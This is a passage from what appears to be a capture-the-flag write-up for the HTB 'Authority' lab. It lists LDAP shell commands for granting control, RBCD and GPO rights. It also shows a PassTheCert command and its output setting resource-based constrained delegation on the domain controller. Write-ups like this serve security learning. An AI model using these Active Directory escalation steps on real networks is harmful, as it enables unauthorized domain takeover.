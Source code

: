 ```bash
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 whoami - get connected user
 dirsync - Dirsync requested attributes
 exit - Terminates this session.
```

The one that works is `add_user_to_group`:

![alt text](../assets/images/authority13.png)

**PassTheCert -> TGT [Path 2]**

The intended way to exploit this is to use the `write_rbcd` action to give the fake computer `0xdf$` delegration rights over the DC:

```bash
➜  authority python PassTheCert/Python/passthecert.py -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'irem$' -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] irem$ can now impersonate users on AUTHORITY$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     irem$        (S-1-5-21-622327497-3269355298-2248959698-11602)

```
